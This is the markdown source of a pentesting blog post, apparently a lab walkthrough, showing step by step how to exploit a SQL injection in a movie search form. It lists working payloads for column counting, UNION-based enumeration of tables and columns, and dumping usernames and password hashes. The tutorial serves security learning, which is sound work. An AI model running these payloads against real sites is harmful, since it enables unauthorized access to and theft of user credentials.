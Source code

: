 ```yaml
---
layout: post
title: SQL Injection (Search\GET)
categories:
  - Web-Pentesting
---
```


<p>A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.</p>
<br>Take the example like this, here we can search for the movies

![50](https://teckk2.github.io/assets/images/Web%20Pentest/A1/50.png)
![51](https://teckk2.github.io/assets/images/Web%20Pentest/A1/51.png)
<br>Let’s check for slqi with single quote (‘)
![52](https://teckk2.github.io/assets/images/Web%20Pentest/A1/52.png)
![53](https://teckk2.github.io/assets/images/Web%20Pentest/A1/53.png)
<br>And we got the error now let’s proceed further.
![54](https://teckk2.github.io/assets/images/Web%20Pentest/A1/54.png)
<br>With double quotes and space in between (‘ ‘)
![55](https://teckk2.github.io/assets/images/Web%20Pentest/A1/55.png)
<br>All the movie result is now showing without searching for any specific movie from the database.
<br>Now using order by find the exact no. of columns in the database.
<br>For that we will put (1' order by 1-- -) after title= and increase the numbers of columns until we get any error.
![56](https://teckk2.github.io/assets/images/Web%20Pentest/A1/56.png)
<br>title=1' order by 1-- -
<br>title=1' order by 2-- -
<br>title=1' order by 3-- -
<br>title=1' order by 4-- -
<br>title=1' order by 5-- -
<br>title=1' order by 6-- -
<br>title=1' order by 7-- -
![57](https://teckk2.github.io/assets/images/Web%20Pentest/A1/57.png)
<br>At (8) we got the error which means there is 7 columns in the database, now move to the next step
<br>**Which is enumerating the database using (union select)**
![58](https://teckk2.github.io/assets/images/Web%20Pentest/A1/58.png)
<br>At columns we can print our result on are 2,3,5,4 respectively.
<br>Let’s choose column 2
![59](https://teckk2.github.io/assets/images/Web%20Pentest/A1/59.png)
![60](https://teckk2.github.io/assets/images/Web%20Pentest/A1/60.png)
<br><font color="Black">title=1' union select 1,database(),3,4,5,6,7-- -</font>
<br>Now extract the table names from the database.
![61](https://teckk2.github.io/assets/images/Web%20Pentest/A1/61.png)
<br><font color="Black">title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
![62](https://teckk2.github.io/assets/images/Web%20Pentest/A1/62.png)
<br><font color="Black">title=1' union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
<br>now let’s check the users table
![63](https://teckk2.github.io/assets/images/Web%20Pentest/A1/63.png)
<br><font color="Black">title=1' union select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name="users"-- -</font>
![64](https://teckk2.github.io/assets/images/Web%20Pentest/A1/64.png)
<br><font color="Black">title=1' union select 1,group_concat(login,0x3a,password),3,4,5,6,7 from users-- -</font>
<br>As you can see we successfully dump the username and password hash from the database.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
